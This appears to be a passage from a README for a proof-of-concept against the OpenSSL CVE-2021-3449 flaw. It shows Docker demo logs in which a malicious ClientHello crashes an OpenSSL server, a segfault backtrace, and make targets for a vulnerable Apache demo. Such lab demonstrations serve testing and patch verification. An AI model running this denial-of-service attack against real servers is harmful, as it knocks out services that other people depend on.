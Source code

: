 Result: Full server crash.

**Logs**

```
docker run -d -it --name cve-2021-3449-openssl --network host local/cve-2021-3449/openssl
a16c44f98a37b7e0c0777d3bd66456203de129fd23566d2141ef2bec9777be17
docker logs -f cve-2021-3449-openssl &
sleep 2
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Using default temp DH parameters
ACCEPT
sending initial ClientHello
connected
sending malicious ClientHello

[[truncated]]

Program received signal SIGSEGV, Segmentation fault.
0x00007f668bd89283 in tls12_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#0  0x00007f668bd89283 in tls12_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#1  0x00007f668bd893cd in tls1_set_shared_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#2  0x00007f668bd89fe3 in tls1_process_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#3  0x00007f668bd8a110 in tls1_set_server_sigalgs () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00007f668bd824a2 in tls_early_post_process_client_hello () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#5  0x00007f668bd84d55 in tls_post_process_client_hello () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#6  0x00007f668bd8522f in ossl_statem_server_post_process_message () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#7  0x00007f668bd710e1 in read_state_machine () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#8  0x00007f668bd7199d in state_machine () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#9  0x00007f668bd71c4e in ossl_statem_accept () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#10 0x00007f668bd493ab in ssl3_read_bytes () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#11 0x00007f668bd504ec in ssl3_read_internal () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#12 0x00007f668bd50595 in ssl3_read () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#13 0x00007f668bd5ae5c in ssl_read_internal () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#14 0x00007f668bd5af5b in SSL_read () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#15 0x000055aa5a10f209 in sv_body ()
#16 0x000055aa5a1302ec in do_server ()
#17 0x000055aa5a114815 in s_server_main ()
#18 0x000055aa5a0f9395 in do_cmd ()
#19 0x000055aa5a0f9ee1 in main ()
malicious handshake failed, exploit might have worked
```

### Apache2 httpd

Apache2 `httpd` web server with default configuration is vulnerable.

* `make demo-apache`: Full run (port 443)
* `make -C demo build-apache`: Build target Docker image
* `make -C demo start-apache`: Start target at port 443
* `make -C demo stop-apache`: Stop target
